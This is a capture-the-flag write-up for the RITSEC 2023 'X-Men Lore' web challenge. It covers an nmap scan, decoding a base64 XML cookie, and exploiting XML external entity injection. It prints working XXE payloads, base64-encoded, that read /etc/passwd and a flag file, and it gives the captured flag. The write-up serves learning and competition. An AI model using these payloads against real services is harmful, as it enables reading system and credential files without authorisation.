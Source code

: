 ```yaml
---
title: "[RITSEC 2023] - X-Men Lore"
date: 2023-04-02
author: me
categories: [writeups]
tags: ["Web", "RITSEC"]
toc: true
comments: false
mermaid: false
math: false
---
```


<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.2/css/all.min.css">
<link rel="stylesheet" href="/assets/css/lil-bootstrap.css">
<script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>

<br>


*The 90's X-Men Animated Series is better than the movies. Change my mind.*

[https://xmen-lore-web.challenges.ctf.ritsec.club/](https://xmen-lore-web.challenges.ctf.ritsec.club/)


_____________________________________________________

<br>

**Table of contents:**

- <a href="#nmap">Nmap</a>
- <a href="#web-app">Web app</a>
- <a href="#exploit">Exploit</a>
- <a href="#flag">Flag</a>

<br>

### Nmap

```
┌──(teiiko㉿kali)-[~/Bureau/RITSEC]
└─$ nmap -sV xmen-lore-web.challenges.ctf.ritsec.club
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-01 12:37 CEST
Nmap scan report for xmen-lore-web.challenges.ctf.ritsec.club (34.111.96.219)
Host is up (0.016s latency).
rDNS record for 34.111.96.219: 219.96.111.34.bc.googleusercontent.com
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE   VERSION
80/tcp  open  http      gunicorn
443/tcp open  ssl/https gunicorn
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/

Service detection performed. Please report any incorrect resultsorg/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 128.59 seconds

```
### Web app

By reaching the website, we arrive on a main page that allows us to choose an X-Men character. 

![first](/images/x-men/x-men-main.png)

So let's pick one of them.

![first](/images/x-men/x-men-main-2.png)

There is nothing interesting either in the page or in the source code, so i looked for cookies and found something interesting:

![first](/images/x-men/x-men-main-3.png)

Indeed, everytime we choose a charactere, a new cookie is set up:

![first](/images/x-men/x-men-main-4.png)

It looks like a base64-encoded string, so lets try to decode it.

```bash
teiiko@LAPTOP-1H1P71UP:~$ echo PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48aW5wdXQ+PHhtZW4+V29sdmVyaW5lPC94bWVuPjwvaW5wdXQ+ | base64 -d
<?xml version='1.0' encoding='UTF-8'?><input><xmen>Wolverine</xmen></input>
teiiko@LAPTOP-1H1P71UP:~$
```

Now, we understand we have to try for an XML eXternal Entity (XXE) Injection.

### Exploit

Firstly, I tried to read an existing file, like `/etc/passwd`.

So, I performed this payload...

```xml
<?xml version='1.0' encoding='UTF-8'?>
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
    <input>
        <xmen>&xxe;</xmen>
    </input>
```

...which gives us in base64 the following string:

```
PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48IURPQ1RZUEUgZm9vIFs8IUVOVElUWSB4eGUgU1lTVEVNICJmaWxlOi8vL2V0Yy9wYXNzd2QiPl0+PGlucHV0Pjx4bWVuPiZ4eGU7PC94bWVuPjwvaW5wdXQ+Cg==
```

Then, i replaced my cookie and refreshed the page.

![first](/images/x-men/x-men-main-6.png)

And we sucessfully get then content of `/etc/passwd` file !

### Flag

Here comes the most difficult part (a little bit too guessy imo), we have to find a file containing the flag. I tried a lot of things like log files, user specific files, linux default files.. but none gave me the flag or interesting data. So, after being stucked for an hour, I looked for more obvious files that we conventionally find in CTF (like `flag`, `flag.txt`, `/passwd`...).

So, I firstly tried to read a potential `flag` file and it worked... !

![first](/images/x-men/x-men-flag.png)

> 🚩 `RS{XM3N_L0R3?_M0R3_L1K3_XM3N_3XT3RN4L_3NT1TY!}`

**Final payload:**

```xml
<?xml version='1.0' encoding='UTF-8'?>
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file://./flag">]>
    <input>
        <xmen>&xxe;</xmen>
    </input>
```

**Base64-encoded string**

```
PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48IURPQ1RZUEUgZm9vIFs8IUVOVElUWSB4eGUgU1lTVEVNICJmaWxlOi8vLi9mbGFnIj5dPjxpbnB1dD48eG1lbj4meHhlOzwveG1lbj48L2lucHV0Pgo=
```